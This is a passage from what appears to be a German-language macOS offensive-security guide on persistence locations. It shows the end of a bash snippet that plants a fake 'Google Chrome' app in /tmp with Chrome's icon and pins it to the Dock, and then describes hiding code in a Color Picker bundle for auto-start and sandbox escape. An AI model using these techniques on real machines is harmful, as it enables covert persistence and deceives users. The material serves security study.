 ```bash
<string>com.google.Chrome</string>
<key>CFBundleName</key>
<string>Google Chrome</string>
<key>CFBundleVersion</key>
<string>1.0</string>
<key>CFBundleShortVersionString</key>
<string>1.0</string>
<key>CFBundleInfoDictionaryVersion</key>
<string>6.0</string>
<key>CFBundlePackageType</key>
<string>APPL</string>
<key>CFBundleIconFile</key>
<string>app</string>
</dict>
</plist>
EOF

# Copy icon from Google Chrome
cp /Applications/Google\ Chrome.app/Contents/Resources/app.icns /tmp/Google\ Chrome.app/Contents/Resources/app.icns

# Add to Dock
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/tmp/Google Chrome.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'
killall Dock
```
### Farbwähler

Writeup: [https://theevilbit.github.io/beyond/beyond\_0017](https://theevilbit.github.io/beyond/beyond\_0017/)

* Nützlich, um die Sandbox zu umgehen: [🟠](https://emojipedia.org/large-orange-circle)
* Eine sehr spezifische Aktion muss stattfinden
* Du wirst in einer anderen Sandbox enden
* TCC-Umgehung: [🔴](https://emojipedia.org/large-red-circle)

#### Standort

* `/Library/ColorPickers`
* Root erforderlich
* Auslöser: Verwende den Farbwähler
* `~/Library/ColorPickers`
* Auslöser: Verwende den Farbwähler

#### Beschreibung & Exploit

**Kompiliere ein Farbwähler**-Bundle mit deinem Code (du könntest [**dieses hier zum Beispiel**](https://github.com/viktorstrate/color-picker-plus) verwenden) und füge einen Konstruktor hinzu (wie im [Bildschirmschoner-Bereich](macos-auto-start-locations.md#screen-saver)) und kopiere das Bundle nach `~/Library/ColorPickers`.
